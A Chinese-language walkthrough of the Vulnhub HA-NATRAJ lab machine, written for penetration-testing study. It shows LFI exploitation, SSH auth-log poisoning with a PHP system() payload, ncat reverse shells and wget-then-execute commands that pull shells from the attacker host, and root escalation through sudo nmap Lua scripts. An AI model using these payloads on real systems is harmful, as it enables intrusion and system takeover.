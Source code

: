```yaml
---
layer: article
title: Vulnhub 489 HA-NATRAJ
tags: pentest vulnhub Walkthrough
---
```


考点：文件包含、权限继承、lua

靶机链接：https://www.vulnhub.com/entry/ha-natraj,489/

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| natraj     | 10.0.2.6  |

VirtualBox直接导入无法获得IP，解决方法见**[Vulnhub靶机无法获得IP](https://www.iihack.com/2022/08/08/vulnhub-vm-ip.html)**。

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.6
$ nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:9f:da:f4:2e:67:01:92:d5:da:7f:70:d0:06:b3:92 (RSA)
|   256 bc:ea:f1:3b:fa:7c:05:0c:92:95:92:e9:e7:d2:07:71 (ECDSA)
|_  256 f0:24:5b:7a:3b:d6:b7:94:c4:4b:fe:57:21:f8:00:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

看来漏洞大概率只能出在web应用上了。

### WEB测试

查看源代码，全静态，看看有没有二级目录

#### dirb

```bash
$ dirb http://10.0.2.6/
-----------------
URL_BASE: http://10.0.2.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://10.0.2.6/ ----
==> DIRECTORY: http://10.0.2.6/console/                                                                            
==> DIRECTORY: http://10.0.2.6/images/                                                                             
+ http://10.0.2.6/index.html (CODE:200|SIZE:14497)                                                                 
+ http://10.0.2.6/server-status (CODE:403|SIZE:273)  
```

#### dirsearch

```bash
$ dirsearch -u http://10.0.2.6/
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927
Target: http://10.0.2.6/
[04:01:31] Starting:                                         
[04:01:51] 301 -  306B  - /console  ->  http://10.0.2.6/console/            
[04:01:51] 200 -  936B  - /console/
[04:01:56] 200 -    5KB - /images/                                          
[04:01:56] 301 -  305B  - /images  ->  http://10.0.2.6/images/              
[04:01:56] 200 -   14KB - /index.html                                       
[04:02:12] 403 -  273B  - /server-status/                                   
[04:02:13] 403 -  273B  - /server-status                                    

Task Completed 
```

发现存在console目录

![1]( https://static.iihack.com/vulnhub/489/1.JPG)

### 漏洞发现

访问`http://10.0.2.6/console/file.php`页面空白，盲猜这里有个file参数，可能存在本地文件包含LFI。

```bash
http://10.0.2.6/console/file.php?file=/etc/passwd
```

![2]( https://static.iihack.com/vulnhub/489/2.JPG)

## 获得权限

尝试包含`/var/log/apache2/access.log`等失败，发现包含`/var/log/auth.log`成功了

### 本地测试

测试写入`/var/log/auth.log`文件

```bash
$ ssh '<?php system($_GET[123]);?>'@127.0.0.1
```

![3]( https://static.iihack.com/vulnhub/489/3.JPG)

看效果写入成功

### 靶机测试

```bash
$ ssh '<?php system($_GET[123]);?>'@10.0.2.6 
```

![4]( https://static.iihack.com/vulnhub/489/4.JPG)

`http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=nc 10.0.2.15 444`创建了端口连接，但是`http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=nc 10.0.2.15 444 -e /bin/sh`失败了，说明这个靶机的`nc`没有`-e`参数

#### 思路一

可使用ncat代替nc

```http
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=ncat 10.0.2.15 444 -e /bin/bash
```

成功接收反弹

#### 思路二

写一句话文件

在auth.log发现目录`/var/www/html/console`

使用python快速本地起http服务`python -m 'http.server' 80`

尝试下载文件写入目录`/var/www/html/console/`写入失败

尝试下载文件写入目录`/var/www/html/`写入成功

```http
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=wget http://10.0.2.15/2.php -O /var/www/html/2.php
```

使用antsword连上

![5]( https://static.iihack.com/vulnhub/489/5.JPG)



#### 思路三

修改kali自带的php反弹shell脚本 `/usr/share/webshells/php/php-reverse-shell.php`

![6]( https://static.iihack.com/vulnhub/489/6.JPG)

下载反弹shell脚本到/tmp目录并执行

```
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=wget http://10.0.2.15/php-reverse-shell.php -O /tmp/1.php|php /tmp/1.php
```

成功接收反弹

## 提权

切换到交互式shell

```bash
$ whereis python
python: /usr/bin/python3.6m /usr/bin/python3.6 /usr/lib/python3.6 /usr/lib/python3.7 /usr/lib/python2.7 /etc/python3.6 /usr/local/lib/python3.6
$ python3.6 -c 'import pty; pty.spawn("/bin/bash")'
```

上传[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)并运行发现apache2配置文件可以更改

![7]( https://static.iihack.com/vulnhub/489/7.JPG)

```bash
$ cat /etc/passwd|grep bash
root:x:0:0:root:/root:/bin/bash
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```

### natraj

修改/etc/apache2/apache2.conf将运行权限修改为natraj，重启靶机系统，反弹shell，再次运行linpeas.sh未发现有用信息

### mahakal

修改/etc/apache2/apache2.conf将运行权限修改为mahakal，重启靶机系统，反弹shell，再次运行linpeas.sh

发现可以免密运行`sudo nmap`

![9]( https://static.iihack.com/vulnhub/489/9.JPG)

想到nmap可以执行script，而script是lua语言编写，应该可以执行系统命令

参考 https://www.lua.org/pil/22.2.html 编写文件555

![10]( https://static.iihack.com/vulnhub/489/10.JPG)

通过`nmap`加载555

![11]( https://static.iihack.com/vulnhub/489/11.JPG)

成功接收root反弹

![12]( https://static.iihack.com/vulnhub/489/12.JPG)
